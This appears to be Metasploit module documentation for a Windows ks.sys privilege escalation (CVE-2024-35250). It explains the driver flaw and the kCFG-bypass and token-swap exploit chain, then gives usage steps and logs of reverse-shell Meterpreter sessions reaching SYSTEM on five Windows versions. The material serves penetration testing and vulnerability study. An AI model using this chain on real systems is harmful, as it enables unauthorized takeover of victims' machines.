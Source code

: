 ## Vulnerable Application
The ks.sys driver on Windows is one of the core components of Kernel Streaming and is installed by default. There exists
an Access Mode Mismatch LPE in this driver which can be exploited on some of the latest versions of Windows including:
- Windows 11 22H2,
- Windows 10 22H2
- Windows 10 1607
- Windows Server 2022
- Windows Server 2016

### About the Bug Class
Access Mode Mismatch bugs in the Windows kernel center around the PreviousMode member of the `KTHREAD` structure. Every
thread has a previous access mode associated with it. The PreviousMode is set to UserMode(1) if a user operates on a
device or file through Nt* System Service Call, indicating that the System Service call is from the user. The PreviousMode
is set to KernelMode(2) if for example a device driver invoking the Zw* System Service Call.

RequestorMode is a similar field in the I/O Request Packet (IRP) which indicates if the original request came from
KernelMode or UserMode. This commonly used field is typically derived from PreviousMode.

### About the Vulnerability
An application can use `IOCTL_KS_PROPERTY` to get or set properties, or to determine the properties supported by a KS
object. An application passes `IOCTL_KS_PROPERTY` to the `ks!KsSynchronousIoControlDevice` with a few parameters:
Major Code, Input Buffer, Input Buffer Length, Output Buffer, Output Buffer Length and Status Code. To improve
efficiency in `IOCTL_KS_PROPERTY` of Kernel Streaming, the requests `KSPROPERTY_TYPE_SERIALIZESET` and
`KSPROPERTY_TYPE_UNSERIALIZESET` are provided to allow users to operate on multiple properties in a single call.

The vulnerability stems from the driver's use of the function `ks!KsSynchronousIoControlDevice`. There are multiple calls
to this function throughout the driver which incorrectly hard code the RequestorMode parameter value KernelMode. The
vulnerable function `ks!KsSynchronousIoControlDevice` can be invoked by issuing a `KSPROPERTY_TYPE_UNSERIALIZESET` request
in which user controlled parameters are handled with KernelMode privileges specifically when the property is set to
`KSPROPSETID_DrmAudioStream`. This provides a primitive that allows users to perform arbitrary `IOCTL_KS_PROPERTY`
operations.

To achieve EoP with this primitive first kCFG must be bypassed. By using the legitimate function `RtlSetAllBits` from
ntoskrnl.exe, the arbitrary `IOCTL_KS_PROPERTY` operation can be turned into a arbitrary write primitive which can be used
to achieve EoP by whatever typical method the user prefers. This module uses the write primitive to replace the
current process token with a system token. Abusing token privileges is also an option.

### Setup

Install Windows 10 22H2 (before 10.0.19045.4529) on any HyperVisor other than Hyper-V. Hyper-V does not have an audio
device by default, causing the exploit to fail.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_35250_ks_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 10 22H2 (10.0 Build 19045)
```
msf exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 19045
[*] Launching notepad to   host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 1012
[*] Reflectively injecting the DLL into 1012...
[*] Sending stage (201798 bytes) to 192.168.123.236
[*] Meterpreter session 3 opened (192.168.123.1:5555 -> 192.168.123.236:49676) at 2024-11-04 09:47:50 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-0OPTL76
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

### Windows 10 1607 (10.0 Build 14393)
```
msf exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 4272
[*] Reflectively injecting the DLL into 4272...
[*] Sending stage (201798 bytes) to 192.168.123.240
[*] Meterpreter session 5 opened (192.168.123.1:5555 -> 192.168.123.240:49675) at 2024-11-05 10:19:30 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-4A5TFR5
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 22H2 (10.0 Build 22621)
```
msf exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 192.168.123.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 10+ Build 22621
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 6948
[*] Reflectively injecting the DLL into 6948...
[*] Sending stage (201798 bytes) to 192.168.123.1
[*] Meterpreter session 7 opened (192.168.123.1:5555 -> 192.168.123.1:52543) at 2024-11-04 11:22:59 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 11 (10.0 Build 22621).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2022 (10.0 Build 20348)
```
msf exploit(windows/local/cve_2024_35250_ks_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016+ Build 20348
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 7336
[*] Reflectively injecting the DLL into 7336...
[*] Sending stage (201798 bytes) to 172.16.199.132
[*] Meterpreter session 3 opened (172.16.199.1:5555 -> 172.16.199.132:49977) at 2024-11-05 10:03:36 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-LBHI5KSJDU4
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2016 (10.0 Build 14393)
```
msf exploit(windows/local/cve_2024_35250_ks_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016+ Build 14393
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 316
[*] Reflectively injecting the DLL into 316...
[*] Sending stage (201798 bytes) to 172.16.199.135
[*] Meterpreter session 7 opened (172.16.199.1:5555 -> 172.16.199.135:49691) at 2024-11-05 13:48:17 -0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-4DS9S9C0JSC
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

